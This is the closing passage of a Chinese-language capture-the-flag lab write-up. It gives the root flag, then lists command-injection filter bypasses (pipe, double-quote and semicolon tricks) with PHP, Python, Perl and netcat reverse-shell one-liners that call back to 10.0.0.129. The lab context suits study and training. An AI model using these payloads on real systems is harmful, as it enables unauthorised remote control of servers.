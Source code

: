 ```
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```

![](https://image.3001.net/images/20210125/1611506447_600da30f383398b88bb39.png!small?1611506447371)

总结
--

靶机很友好，网站的命令执行漏洞探测很简单，这里补充一下在此次反弹 shell 的时候可以用到的方法

**使用管道符绕过过滤**

```
whoami|ls-->ls
whoami|ls /home-->ls /home
```

php

```
whoami|php -r '$sock=fsockopen("10.0.0.129",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

python3

```
whoami|python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.129",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

perl

```
whoami|perl -e 'use Socket;$i="10.0.0.129";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```
whoami|perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.129:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

nc（netcat）

```
whoami|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.129 5555 >/tmp/f
```

**使用双引号绕过过滤**

```
whoami""-->whoami
ls""-->ls
```

反弹 shell

```
rm"" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.129 5555 >/tmp/f
```

**使用分号绕过过滤**

```
ls;whoami-->whoami
ls;ls-->ls
```

反弹 shell

```
ls;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.129 5555 >/tmp/f
```